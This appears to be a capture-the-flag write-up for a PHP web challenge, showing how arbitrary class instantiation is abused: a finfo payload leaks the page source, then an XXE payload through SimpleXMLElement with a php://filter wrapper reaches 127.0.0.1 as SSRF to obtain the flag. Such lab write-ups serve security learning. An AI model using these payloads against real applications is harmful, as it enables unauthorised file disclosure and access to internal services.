

In this challenge we can instanciate a class, I searched in google and found this [vulnerabilities in class instanciation](https://labs.detectify.com/security-guidance/modern-php-security-part-1-bug-classes/).

We use `finfo` to leak the file `index.php`..

when we send this payload: `class=finfo&param1=0&param2=index.php`, we get as an output stuff that looks like that:
```
Notice: finfo::finfo(): Warning: offset `<!DOCTYPE html>' invalid in /index.php on line 61
Notice: finfo::finfo(): Warning: type `<!DOCTYPE html>' invalid in /index.php on line 61
Notice: finfo::finfo(): Warning: offset `<html>' invalid in /index.php on line 61
...
```


And then, if we'll remove the warnings:
```php
 <?php
    ini_set('display_errors', 'on');
    ini_set('error_reporting', E_ALL);

    if (isset($_POST['class']) && isset($_POST['param1']) && isset($_POST['param2'])) {
        $class = strtolower($_POST['class']);

        if (in_array($class, ['splfileobject', 'globiterator', 'directoryiterator', 'filesystemiterator'])) {
            die('Dangerous class detected.');
        } else {
            $result = new $class($_POST['param1'], $_POST['param2']);
            echo '<br><hr><br><div class="row"><pre>';
        }
    }

    #### ----------------------------------
    #### Very interesting
    $text = 'Niw0OgIsEykABg8qESRRCg4XNkEHNg0XCls4BwZaAVBbLU4EC2VFBTooPi0qLFUELQ==';
    $key = ini_get('user_agent');

    if ($_SERVER['REMOTE_ADDR'] === '127.0.0.1') {
        if ($_SERVER['HTTP_USER_AGENT'] !== $key) {
            die("Cheating is bad, m'kay?");
        }

        $i = 0;
        $flag = '';

        foreach (str_split(base64_decode($text)) as $letter) {
            $flag .= chr(ord($key[$i++]) ^ ord($letter));
        }

        die($flag);
    }
?>
/*
Congratulation, you can read this file, but this is not the end of our journey.

- Thanks to cutz for the QA.
- Thanks to blotus for finding a (now fixed) weakness in the "encryption" function.
- Thanks to nurfed for nagging us about a cheat
*/
```
Okay, it looks like the only way to retrieve the flag, which is encrypted, is by doing `SSRF`, and then It'll think we are coming from inside the system.

So, we'll use `SimpleXMLElement` and exploit `XXE` to achieve SSRF, as showen here [exploit class instanciation using SSRF](https://www.pwntester.com/blog/2014/01/17/hackyou2014-web400-write-up/).

param1 will be the `XXE`, We wanna leak `index.php`, so this is our payload:
```
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=http://127.0.0.1/level12/index.php" >]><foo>&xxe;</foo>
```
We use php schema to b64 encode this, and by this way we access from local host :D

Also, the second param i chose from here [constants for second param of SimpleXMLElement._construct function](https://www.php.net/manual/en/libxml.constants.php), I chose `3`, you can simply use burp intruder and bruteforcing this.

this will be our payload:
`class=SimpleXMLElement&param1=<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=http://127.0.0.1/level12/index.php" >]><foo>&xxe;</foo>&param2=3`



YAY, we can see it uses the exact CTF we learned from, this is the exact write-up [hackyou2014-web400-write-up](https://www.pwntester.com/blog/2014/01/17/hackyou2014-web400-write-up/).

**Flag:** ***`WEBSEC{Many_thanks_to_hackyou2014_web400_MSLC_<3}`*** 
